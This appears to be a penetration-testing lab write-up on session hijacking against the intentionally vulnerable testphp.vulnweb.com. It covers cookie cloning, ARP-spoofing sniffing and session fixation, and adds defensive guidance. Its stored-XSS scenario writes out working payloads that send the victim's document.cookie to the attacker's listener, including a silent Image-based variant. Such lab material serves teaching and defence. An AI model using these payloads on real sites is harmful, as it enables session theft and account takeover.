




> **English** | [Italiano](README.md)

# Auth Attacks: Session Hijacking

> - **Phase:** Web Attack - Session Hijacking
> - **Visibility:** Medium (XSS for cookie stealing) / High (ARP spoofing on LAN) / None (manual cookie cloning with physical access)
> - **Prerequisites:** Active victim session, identified XSS vector (for Scenario B) or presence on the same LAN (for Scenario C)
> - **Output:** Victim's session cookie, impersonated account access, finding WEB-010

---

**Finding ID:** `WEB-010` | **Severity:** `High` | **CVSS v3.1:** 8.0

---

Objective: Demonstrate how an attacker can impersonate an authenticated user by stealing their session identifier (Session ID), completely bypassing the password and two-factor authentication (2FA).

Target: `http://testphp.vulnweb.com`

Lab Setup:

- Attacker: Kali Purple (IP: `192.168.0.110`)
- Victim: Windows 10 (Chrome)

Tools: Browser DevTools, Python (HTTP Server), XSS Payload, Ettercap, Wireshark.

---

## 1 Theory: The "Master Key"

The HTTP protocol is stateless (no memory). To "remember" who you are after login, the server assigns you a Session ID (usually saved in Cookies).
In security terms: Whoever possesses that cookie IS the user.

If an attacker obtains it, they can access the victim's account immediately, without knowing the credentials.

---

## 2 Main Attack Vectors

- XSS (Cross-Site Scripting): Inject malicious JavaScript to read `document.cookie` and send it to an external server.
- Network Sniffing: Intercept unencrypted HTTP traffic (e.g., on public Wi-Fi) to read cookies in transit.
- Session Fixation: The attacker "fixes" a known session ID and forces the victim to use it for login.
- Malware/Physical Access: Steal cookie database files directly from the victim's PC.

---

## 3 Scenario A: Manual Cookie Cloning (Basic)

In this scenario we simulate the basic concept: if I copy the cookie from one browser to another, I transfer the session.

Procedure:

#### Browser A (Victim): Performs legitimate login on `testphp.vulnweb.com`.

Extraction: Opens DevTools (`F12` > Storage > Cookies) and copies the cookie value.

Typical value: `login=test%2Ftest`

#### Browser B (Attacker): Opens the site homepage (unauthenticated).

Injection: Opens the Developer Console and types:

```JavaScript
document.cookie="login=test%2Ftest";
```

Refresh: Reloading the page, Browser B is logged in as the victim user.

---

## 4 Scenario B: XSS to Cookie Stealing (Advanced Red Team)

In this real scenario, we automate the theft using a site vulnerability, without having physical access to the victim's PC.

#### Phase 1: Trap Setup

The attacker exploits a Stored XSS vulnerability in the Guestbook. The objective is to inject a script that sends the cookie to the attacker's server (`192.168.0.110`).

Listener (Kali):

```Bash
python3 -m http.server 8000
```

XSS Payload:

```HTML
<script>document.location='http://192.168.0.110:8000/?cookie='+document.cookie;</script>
```

Technical Note (Stealth): This payload uses a redirect (`document.location`), which is visible to the victim. A real attacker could use a silent method (e.g., `new Image().src = 'http://192.168.0.110:8000/?c='+document.cookie`) to steal the cookie in the background without the victim noticing.

#### Phase 2: Execution (The Heist)

The victim visits the Guestbook page. The browser executes the script and is forced to visit the attacker's server, exposing the cookie in the URL.

Evidence 1: Victim Redirect

The victim sees a "Directory listing" of the attacker's server instead of the site. In the address bar, the stolen cookie is visible: `login=test%2Ftest`.



#### Phase 3: Acquisition and Injection

The attacker receives the cookie in the Python server logs and injects it into their own browser via console.

Evidence 2: Kali Logs & Manual Injection



On the left, server logs showing the GET request with the cookie. On the right, the attacker's browser console where the cookie is set.

#### Phase 4: Impersonation (Success)

After setting the cookie and refreshing the page, the attacker has full access to the sensitive data (credit card, email) of user `test`.

Evidence 3: Access Executed



---

## 5 Secure Coding (Defense)

To mitigate these attacks, action is needed on multiple levels:

- `HttpOnly` Flag:
    
    Makes the cookie invisible to JavaScript. If active, `document.cookie` returns an empty string, rendering the XSS attack ineffective for session theft. This is the main reason the attack above succeeded: the flag was missing.

- `Secure` Flag:
    
    Ensures the cookie is only sent over encrypted HTTPS connections (protects from Sniffing).

- `SameSite` Flag (Strict/Lax):
    
    Prevents cookie sending on Cross-Site requests (mitigates CSRF and some XSS leaking vectors).

- Session Rotation:
    
    Regenerate the Session ID immediately after login. This prevents Session Fixation attacks.

- Input Sanitization:
    
    Always sanitize user input to prevent XSS code injection at its root.

---

## 6 Scenario C: Network Sniffing (Man-in-the-Middle)

In this scenario, the attacker positions themselves within the same local network (LAN) as the victim. Since the target `testphp.vulnweb.com` uses the unencrypted HTTP protocol, all traffic, including session cookies, travels "in cleartext".

Technique: ARP Spoofing

The attacker uses ARP Poisoning techniques to deceive the victim's PC, making it believe that the attacker's machine is the Router. This way, all victim traffic passes through Kali before reaching the internet.

Lab Procedure:

1.  Tools: `Ettercap` (for ARP Spoofing) and `Wireshark` (for packet analysis).

2.  Targeting: The victim (Windows 10) is targeted so that their traffic passes through Kali's `eth0` interface.

3.  Sniffing: A `http.cookie` filter is applied on Wireshark.

4.  Capture: As soon as the victim logs in, the cookie is intercepted.

Evidence:




Wireshark clearly shows the GET request packet containing the header: `Cookie: login=test%2Ftest`

Mitigation:

The only effective defense against sniffing is using HTTPS (TLS/SSL) and the `Secure` flag on cookies. This encrypts traffic making it unreadable even if intercepted.

---

## 7 Scenario D: Session Fixation (Theoretical Trap)

Unlike theft (Hijacking), here the attacker imposes a known Session ID on the victim before they log in.

The Concept:

Many web servers accept the Session ID not only via Cookie, but also via URL parameter (e.g., `PHP_SESSION_ID`).

The Kill Chain:

1.  Setup: The attacker visits the site and obtains a valid session ID (e.g., `PHPSESSID=12345`) without logging in.

2.  The Trap: The attacker sends the victim a malicious link containing that ID: `http://testphp.vulnweb.com/login.php?PHPSESSID=12345`

3.  The Access: The victim clicks the link. The server sees the ID `12345` in the URL and "fixes" it for that session.

4.  Authentication: The victim enters username and password. The server promotes ID `12345` to "authenticated ID".

5.  The Intrusion: The attacker, who already possessed cookie `12345` in their browser, refreshes the page and finds themselves logged in as the victim.

Mitigation:

The server must implement Session Rotation: every time a user changes privilege level (e.g., logs in), the server must destroy the old Session ID and generate a completely new one.

---

## MITRE ATT&CK Mapping

| Tactic | Technique | MITRE ID | Action Description |
| :--- | :--- | :--- | :--- |
| Credential Access | Steal Web Session Cookie | `T1539` | Theft of cookie `login=test%2Ftest` through Stored XSS payload in Guestbook (Scenario B) and through network interception (Scenario C) (WEB-010) |
| Collection | Man-in-the-Middle: AiTM HTTPS Interception | `T1557.002` | ARP spoofing with Ettercap + HTTP packet capture with Wireshark to extract session cookie in cleartext (Scenario C - WEB-010) |
| Defense Evasion | Use Alternate Authentication Material: Web Session Cookie | `T1550.004` | Injection of stolen cookie in attacker's browser via JavaScript console (`document.cookie = "..."`) to impersonate the victim's session (WEB-010) |
| Initial Access | Exploit Public-Facing Application | `T1190` | Exploitation of missing `HttpOnly` flag on the session cookie, allowing access via JavaScript (WEB-010) |
| Collection | Browser Session Hijacking | `T1185` | Impersonation of the victim's authenticated session after cookie injection, with access to sensitive profile data |

---

> **Note:** Activities documented were conducted in a controlled lab environment: Kali Purple (attacker, IP: 192.168.0.110) and Windows 10 Chrome (victim) on an isolated local network. Target: `testphp.vulnweb.com`. ARP spoofing on corporate or public networks without authorization is a serious criminal offense. The `HttpOnly` flag is available on all modern web servers and its absence is an avoidable configuration negligence.
